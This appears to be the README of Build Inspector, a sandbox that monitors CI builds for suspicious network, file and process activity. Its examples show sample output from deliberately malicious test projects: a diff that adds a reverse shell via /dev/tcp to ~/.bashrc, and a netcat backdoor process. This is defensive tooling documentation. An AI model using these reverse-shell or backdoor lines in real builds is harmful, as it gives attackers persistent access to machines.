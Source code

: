 # Build Inspector

Build Inspector is a forensic sandbox for Continuous Integration environments.
Ever wonder what's happening during your builds? Build Inspector monitors network activity, file system changes, and running processes, making it easier to spot unintended and potentially dangerous activities. Using a sandboxed environment, build operations will happen in isolation without compromising the machine.

## Requirements

- [Ruby](https://www.ruby-lang.org/en/downloads/) (2.2.3 recommended)
- [Vagrant](https://www.vagrantup.com/)
- [Bundler](http://bundler.io/)

Once those are installed, add the [Sahara Vagrant plugin](https://github.com/jedi4ever/sahara)
and bundle install this project's dependencies:

```bash
vagrant plugin install sahara
git clone https://github.com/sourceclear/build-inspector.git
bundle install
```

## Running

Once you're set up, you'll work with Build Inspector from inside the repository's directory:

```bash
cd build_inspector
```

Build Inspector does not manage Vagrant for you, so you'll need to do that yourself.
The first time you use it, you'll need to start Vagrant and build the image:

```bash
vagrant up
```

Once vagrant is started, save a snapshot with:

```bash
vagrant sandbox on
```

### Usage

```
Usage inspector [options] <git repo path>
    -h, --help                       Display this screen
    -n, --no-rollback                Do not roll back the virtual machine state after running
    -v, --verbose                    Be verbose
    -c, --config <PATH>              Use configuration file at <PATH>, default=config.yml
    -p, --process <PATH>             Only process evidence at <PATH>
    -b, --branch <BRANCH>            Clone <BRANCH> from repository URL
        --url                        Git repo path is a URL
        --gem                        Perform a GEM based build
        --gradle                     Perform a Gradle based build
        --maven                      Perform a Maven based build
        --npm                        Perform a NPM based build

```

### Gradle Example

```bash
./inspector --gradle test-repos/TotallyLegitApp
```

The above project has a task called `backdoor` that adds a reverse
connect shell to `~/.bashrc`.

After running, you should see this at the bottom of the output:

```
changed: ~/.bashrc
--- /backup/root/.bashrc	2014-02-19 21:43:56.000000000 -0500
+++ /root/.bashrc	2015-11-08 13:07:40.579626388 -0500
@@ -97,3 +97,5 @@
 #if [ -f /etc/bash_completion ] && ! shopt -oq posix; then
 #    . /etc/bash_completion
 #fi
+
+bash -c "bash -i>&/dev/tcp/localhost/1337 0>&1 &disown"&>/dev/null
```

In addition, you'll have a file that looks like
`evidence-TotallyLegitApp-201523110032412.zip` which has all the
network and process activity, file system changes, and any new processes.

### Bundler Example

```bash
./inspector --gem test-repos/harmless-project
```

This bundler project has a gem that pings Google during its
installation.

Run it with Build Inspector and you'll see a list of domains
that the machine tried to connect to.

```
Hosts contacted:
  www.google.com (74.125.224.113)                                    1.3K
```

### NPM Example

```bash
./inspector --npm test-repos/ann-pee-am
```

Inspecting this NPM project should yield the following output:

```
The following processes were running during the build:
  - /bin/sh -i
  - nc -l 0.0.0.0 8080
```

That's because the NPM project depends on a module that opens a
persistent backdoor using `netcat`.

### Configuration

Build Inspector monitors all network and file system activities. To ignore
hosts or exclude directories from the monitoring, create and add a
`config.yml` in the repository that looks like this:

```yaml
---

commands: bundle install --jobs 2

host_whitelist:
  - 10.0.2.2 # Vagrant's IP
  - 8.8.8.8 # Ignore DNS
  - bundler.rubygems.org
  - rubygems.global.ssl.fastly.net
  - rubygems.org

evidence_files:
  exclude:
    - /home/vagrant/.gem
  include:
    - /etc
```

There are examples for different build systems in the [configs](configs)
directory. You may copy the appropriate configs for your build system
to the root of this project or you can write one from scratch.

## Reporting Suspicious Builds

Help us understand what threats are out there in the wild by submitting any suspicious builds you encounter. This helps us protect against emerging threats, and ensure they're more widely known.

To submit a suspicious build, just click this link to create a new issue:
[Suspicious Build Issue Submission](https://github.com/sourceclear/build-inspector/issues/new?title=Suspicious%20Build%20Evidence&body=Where%20did%20you%20find%20this%20project%3F%0A%0AWhy%20do%20you%20think%20it%27s%20suspicious%3F%0A%0AAny%20other%20important%20details%3F%0A%0AHow%20are%20you%20doing%20today%3F).

Then just drag the evidence zip file to the issue you just created to attach it. Thanks in advance!

## Troubleshooting

If you're having a problem, try running `rake vagrant:test` and ensure your environment is setup correctly.

### Gradle Build Fails with java.lang.OutOfMemoryError

A build may work on the host machine but fail with BuildInspector because the Vagrant virtual machine has less memory available than the host machine. There are two ways to work around this issue.

#### Option 1: Modify [Vagrantfile](Vagrantfile)

This is the most direct option. This file is used to setup some properties of the virtual machine. The relevant section is:
```ruby
config.vm.provider 'virtualbox' do |vb|
  vb.customize ['modifyvm', :id, '--natdnsproxy1', 'off']
  vb.customize ['modifyvm', :id, '--natdnshostresolver1', 'off']
  vb.memory = 1024
end
```

Simply adjust `vb.memory = 1024` to some other number such as `vb.memory = 2000` then rebuild the machine with `rake vagrant:rebuild`. The Java VM determines heap space as a portion of total memory available. Increasing the memory will also increase the heap space.

#### Option 2: Adjust Java VM Heap Size

If you're unable to adjust the memory requirements for the Vagrant virtual machine, you can try to tell Gradle to tell the Java VM to allocate more heap space. This can be done by adding the following command to your configuration:

```bash
echo org.gradle.jvmargs=-Xmx2G >> gradle.properties
```

For example, `gradle.yml` is:

```yaml
commands: gradle build
```

After adding this command it would be:

```yaml
commands:
  - echo org.gradle.jvmargs=-Xmx2G >> gradle.properties
  - gradle build
```

## Development

When you want to experiment, just do:
`vagrant sandbox on`

Then, make all the changes you want to the image. If you'd like to save the changes, do:
`vagrant sandbox commit`

Otherwise, you can wipe out the changes with:
`vagrant sandbox rollback`

There are also a number of Rake tasks:
```
rake vagrant:commit    # Commits the machine's state
rake vagrant:destroy   # Destroy Vagrant image
rake vagrant:halt      # Gracefully stop Vagrant
rake vagrant:rebuild   # Equivalent to a `vagrant destroy && vagrant up`
rake vagrant:reload    # Equivalent to a `vagrant halt && vagrant up`
rake vagrant:rollback  # Restores the previously committed machine state
rake vagrant:test      # Check environment to determine if build-inspector should work
rake vagrant:up        # Start Vagrant
rake vagrant:update    # Upgrade Vagrant image
```
